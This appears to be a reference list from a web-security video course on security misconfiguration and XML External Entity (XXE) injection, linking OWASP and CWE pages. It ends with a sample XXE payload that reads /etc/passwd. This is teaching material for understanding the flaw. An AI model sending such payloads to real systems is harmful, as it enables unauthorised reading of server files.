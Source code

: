 # Video 6.2

* [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```
